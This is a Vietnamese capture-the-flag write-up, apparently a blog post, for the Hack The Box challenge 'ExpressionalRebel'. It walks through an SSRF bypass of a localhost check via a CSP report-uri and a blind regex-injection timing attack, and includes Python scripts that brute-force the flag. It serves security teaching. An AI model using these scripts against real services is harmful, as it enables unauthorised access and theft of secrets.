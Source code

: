 ```yaml
---
layout: post
title: HTB ExpressionalRebel Writeup
date: 2022-12-01
categories: ["hackthebox"]
---
```


# Phân tích code

Vì đề bài cho source code nên mình sẽ tiến hành phần tích mã nguồn để xem ứng dụng có những chức năng gì và luồng của code như thế nào.

Ứng dụng này được viết bằng nodejs. Mình sẽ đọc thư mục routes trước để xem ứng dụng có những chức năng và đường dẫn nào.

Trong thư mục routes có 2 file api.js và index.js. Với file index.js có 2 hàm home page và deactivate page.

![Imgur](https://i.imgur.com/xOY0Jwx.png)

Chức năng homepage chỉ để hiển thị các thông tin. Còn chức năng deactivate thì có 1 input là ```secretCode```. Biến ```secretCode``` thì được vavalidate bởi hàm ```validateSecret```. Mình sẽ xem hàm ```validateSecret``` sẽ thực hiện điều gì.

```javascript
const validateSecret = async (secret) => {
    try {
        const match = await regExp.match(secret, env.FLAG)
        return !!match;
    } catch (error) {
        return false;
    }
}
```

Hàm này sẽ thực hiện kiểm tra regex nếu input `secret` có khớp với `env.FLAG` hay không.

Tuy nhiên, quay lại chức năng ```deactivate```, chức năng này có hàm ```isLocal```.

![Imgur](https://i.imgur.com/dy8dcNN.png)

Hàm isLocal kiểm tra xem ```remoteAddress``` có phải từ 127.0.0.1 và ```host``` là 127.0.0.1:1337 hay không. Vì vậy, điều đó có nghĩa là chức năng này chỉ có thể truy cập được từ máy chủ cục bộ.

Tiếp theo mình tiến hành phân tích tệp api.js.

![Imgur](https://i.imgur.com/b7kpkK2.png)

Chức năng evaluate sẽ thực hiện nhận các input ```csp``` sau đó sẽ được kiểm tra bởi hàm ```evaluateCsp```.

![Imgur](https://i.imgur.com/x6OlxTs.png)

Hàm ```evaluateCsp``` sẽ thực hiện phân tích cú pháp của CSP và nếu đầu vào có report-uri, nó sẽ được kiểm tra bởi hàm ```checkReportUri```.

Trong CSP thì report-uri sẽ được đi kèm với các url. Mọi người có thể tìm hiểu thêm trong link sau: 

- [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri)

```
Content-Security-Policy: report-uri <uri>;
Content-Security-Policy: report-uri <uri> <uri>;
```

Hàm checkReportUri như sau

![Imgur](https://i.imgur.com/F1XUa8S.png)

Hàm ```checkReportUri``` sẽ thực hiện kiểm tra xem có mấy URI và kiểm tra xem URI đã gửi có phải là 127.0.0.1 hay localhost từ hàm ```isLocalhost``` hay không.

![Imgur](https://i.imgur.com/2rN4Jb0.png)

Nếu tất cả các điều kiện được đáp ứng, hàm ```httpGet``` sẽ được thực thi tới URI đó.

![Imgur](https://i.imgur.com/CQ1D1d0.png)

Hàm ```httpGet``` sẽ thực hiện truy cập vào URI đó.

# Exploit

Trước tiên, mình sẽ gửi yêu cầu qua API để kiểm tra xem response nhận được là gì.

![Imgur](https://i.imgur.com/qdHYGHI.png)

Tiếp theo mình sẽ gửi thông tin report-uri với uri là 127.0.0.1.

![Imgur](https://i.imgur.com/2OT8roZ.png)

Mình nhận được các thông báo lỗi. Vì vậy, mình phải bypass chức năng kiểm tra ```isLocalhost``` của evaluate. Để ứng dụng có thể truy cập vào được 127.0.0.1.

Thế là mình nghĩ ngay cách bypass giống như lỗ hổng SSRF.

![Imgur](https://i.imgur.com/FoRJ3u7.png)

Cách trên có thể bypass hàm ```isLocalhost```` một cách dễ dàng. Đây là kết quả mình đã nhận được.

![Imgur](https://i.imgur.com/G89yQRb.png)

Vậy làm thế nào để có được flag. Quay lại hàm ```deactivate ```, trong hàm ```validateSecret``` có một regex kiểm tra xem secret có khớp với flag hay không. Và chức năng request chỉ có thể truy cập qua localhost.

Kết hợp với chức năng ```evaluate```, mình có thể truy cập chức năng hủy kích hoạt bằng cách bypass ở trên.

![Imgur](https://i.imgur.com/Ke2dyWM.png)

Tuy nhiên, mình không thấy bất cứ điều gì xảy ra.

Với dữ liệu secret regex với flag, mình đã tìm kiếm các thông tin trên google. Sau một thời gian, mình đã tìm ra đây là lỗ hổng Blind Regular Expression Injection và có 1 cách khai thác nhưu sau.

- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://diary.shift-js.info/blind-regular-expression-injection/](https://diary.shift-js.info/blind-regular-expression-injection/)

Theo thông tin mình đọc được thì khi input đoạn regex ```^\(?=.\{1\})\(\(.\)\)*salt$``` nếu ra kết quả đúng thì request sẽ mất hơn 2s để thực hiện. Và nếu sai, yêu cầu sẽ thực hiện rất nhanh.

![Imgur](https://i.imgur.com/CKjF82e.png)

vậy mình sẽ code 1 đoạn khai thác tìm kiếm chiều dài của flag trước tiên.

```python
import requests, urllib, time

url = "http://178.128.174.134:32093/api/evaluate"

def brute_flag():
    length_of_flag = 0
    for i in range(100):
        secret_code = urllib.parse.quote_plus(f'^(?=HTB\{\{.\{\{\{i\}\}\}\}\})((.*)*)*salt$')

        headers = {'Content-Type': 'application/json'}
        data = {'csp': f'report-uri http://127.1:1337/deactivate?secretCode={secret_code}\n'}
        response = requests.post(url, headers=headers, json=data)
        if response.elapsed.total_seconds() > 2:
            length_of_flag = i
            break
        
    print("length flag is: \%s " \% str(length_of_flag))
if __name__ == "__main__":
    brute_flag()
```

Kết quả mình nhận được chiều dài flag là 34:

![Imgur](https://i.imgur.com/yM2nNQw.png)

Sau đó mình thực hiện brute flag

```python
import requests, urllib, time

url = "http://178.128.174.134:32093/api/evaluate"

def brute_force_flag():
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"

    flag = ""
    for i in range(34):
        for i in range(len(alphabet)):
            secret_code = urllib.parse.quote_plus(f'^(?=HTB\{\{\{flag\}\{alphabet[i]\}.*\}\})((.*)*)*salt$')

            headers = {'Content-Type': 'application/json'}
            data = {'csp': f'report-uri http://127.1:1337/deactivate?secretCode={secret_code}\n'}

            response = requests.post(url, headers=headers, json=data)
            if response.elapsed.total_seconds() > 2:
                flag = flag + alphabet[i]
                break

    print("flag is: HTB\{\%s\}" \% str(flag))
if __name__ == "__main__":
    brute_force_flag()
```

Sau khi chạy xong mình đã có được flag

![Imgur](https://i.imgur.com/9rZbEQo.png)
